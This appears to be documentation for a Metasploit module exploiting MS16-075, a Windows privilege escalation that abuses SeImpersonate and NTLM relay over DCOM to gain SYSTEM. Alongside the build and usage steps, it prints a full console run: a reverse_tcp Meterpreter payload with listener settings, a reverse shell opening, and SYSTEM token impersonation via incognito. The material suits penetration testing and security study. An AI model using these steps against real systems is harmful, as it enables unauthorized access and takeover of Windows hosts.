## Introduction

  This module will abuse the SeImperonsate privilege commonly found in
services due to the requirement to impersonate a client upon
authentication. As such it is possible to impersonate the SYSTEM account
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM
attack at which intercepts the hash and relay responses from RPC to be
able to establish a handle to a new SYSTEM token. Some caveats : Set
your target option to match the architecture of your Meterpreter
session, else it will inject the wrong architecture DLL into the process
of a seperate architecture. Additionally, after you have established a
session, you must use incognito to imperonsate the SYSTEM Token.

## Build Instructions

This builds using visual studio 2017 and tools v141.  Attempts
to compile with previous verstions of build tools will succeed but
the resulting binary fails to exploit the vulnerability.

## Usage

  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the
```payload``` and ```session``` options, in addition to architecture.

  Your user at which you are trying to exploit must have `SeImpersonate`
privileges.

  The module has a hardcoded timeout of 20 seconds, as the attack may
not work immediately and take a few seconds to start. Also, check to
make sure port 6666 is inherently not in use else the exploit will not
run properly.

## Scenarios

```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread,
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run
[*] Started reverse TCP handler on -snip-:3312
[+] Reflectively injecting the exploit DLL and triggering the exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to -snip-
[*] Meterpreter session 49 opened (-snip-:3312 -> -snip-:55306) at 2018-08-03 01:54:18 -0400
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > impersonate_token
'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1 ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter >
```
